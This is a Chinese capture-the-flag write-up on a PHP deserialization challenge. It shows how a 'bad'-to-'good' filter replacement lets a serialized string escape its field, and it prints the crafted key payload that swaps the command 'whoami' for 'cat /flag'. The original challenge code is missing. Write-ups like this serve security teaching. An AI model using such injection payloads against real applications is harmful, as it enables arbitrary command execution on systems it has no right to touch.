```php
```

分析一下，首先命令执行对应的参数为cmd，而实例化时可控的对象为key值，题目进行反序列化的时候我们只能通过get传参去控制key，结合waf函数可以字符替换，考虑用字符串逃逸

我们本地测试下，如果传入key值为a

```php
<?php
class GetFlag {
    public $key='a';
    public $cmd = "whoami";

}
$a=new GetFlag();
echo serialize($a);
```

那么序列化后的结果为

```php
O:7:"GetFlag":2:{s:3:"key";s:1:"a";s:3:"cmd";s:6:"whoami";}
```

由于cmd的值不可控，我们尝试把cmd的值写到key里面，也就是将字符串`";s:3:"cmd";s:9:"cat /flag";}`写进去

字符串就变成如下

```php
O:7:"GetFlag":2:{s:3:"key";s:1:"a";s:3:"cmd";s:9:"cat /flag";}";s:3:"cmd";s:6:"whoami";}
```

然后我们计算一下后面被挤掉的部分字符串`a";s:3:"cmd";s:6:"whoami";}`，长度为26，那么我们就需要26个bad被good替换的字符长度差1，再加上`whoami`变成`cat /flag`的长度差3，总共需要29个bad

所以最终构造的payload如下

```php
O:7:"GetFlag":2:{s:3:"key";s:117:""badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:9:"cat /flag";}";s:3:"cmd";s:6:"whoami";}

上传之后，被增多替换：就成了：
O:7:"GetFlag":2:{s:3:"key";s:117:"双引号+29个good=117个字符";s:3:"cmd";s:9:"cat /flag";}";s:3:"cmd";s:6:"whoami";}
```

也就是说上传key为

```
"badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:9:"cat /flag";}
```

得到flag
 ![在这里插入图片描述](assets/0071c38eaffe433f9fbe9ccc7a0bdac7.png)
